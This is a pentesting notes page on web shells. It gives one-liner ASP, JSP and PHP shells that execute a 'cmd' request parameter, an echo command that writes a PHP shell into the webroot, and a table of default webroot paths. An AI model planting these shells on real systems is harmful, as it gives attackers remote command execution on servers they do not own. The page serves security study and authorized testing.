

repository: amandaguglieri/hackinglife · page: web-shells/index.html · generator: mkdocs

---
title: Web Shells
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - pentesting
  - webshell
  - reverse-shells
---

# Web shells

??? abstract "All about shells"
    | **Shell Type** | **Description** |
    | ------- | -------- |
    | [`Reverse shell`](reverse-shells.md) | Initiates a connection back to a "listener" on our attack box.  |
    | [`Bind shell`](bind-shells.md)       | "Binds" to a specific port on the target host and waits for a connection from our attack box.  |
    | [`Web shell`](web-shells.md)         | Runs operating system commands via the web browser, typically not interactive or semi-interactive. It can also be used to run single commands (i.e., leveraging a file upload vulnerability and uploading a `PHP` script to run a single command. |


!!! example "Preconfigured webshells in Kali linux"
    Go to /usr/share/webshells/

??? abstract "Other resources"
    See [reverse shells](reverse-shells.md)


A Web Shell is typically a web script that accepts our command through HTTP request parameters, executes our command, and prints its output back on the web page.

A web shell script is typically a one-liner that is very short and can be memorized easily.


## Some basic web shells

### asp

```asp
<% eval request("cmd") %>
```


### jsp

```jsp
<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>
```

### php

```php
<?php system($_REQUEST["cmd"]); ?>
```

- [Pentesmonkey webshell](pentesmonkey.md).
- [WhiteWinterWolf webshell](https://github.com/WhiteWinterWolf/wwwolf-php-webshell/blob/master/webshell.php).

## How to exploit a web shell

### File upload vs Remote code execution

**1.** **FILE UPLOAD: By abusing an upload feature.** We would place this web shell script into the remote host's web directory to execute the script through the web browser.

**2.** **REMOTE CODE EXECUTION: By writting our one-liner shell to the webroot to access it over the web**. This would be if onle have remote command execution as a exploit vector. Here an example for bash:

```bash
echo '<?php system($_REQUEST["cmd"]); ?>' > /var/www/html/shell.php
```

So, for the second way of exploitation, it's relevant to identify where the webroot is. The following are the default webroots for common web servers:

| Web Server | Default Webroot |
| ------------ | ----------------- |
| Apache | /var/www/html/ |
| Nginx | /usr/local/nginx/html/ |
| IIS | c:\inetpub\wwwroot\ | 
| XAMPP | C:\xampp\htdocs\ |
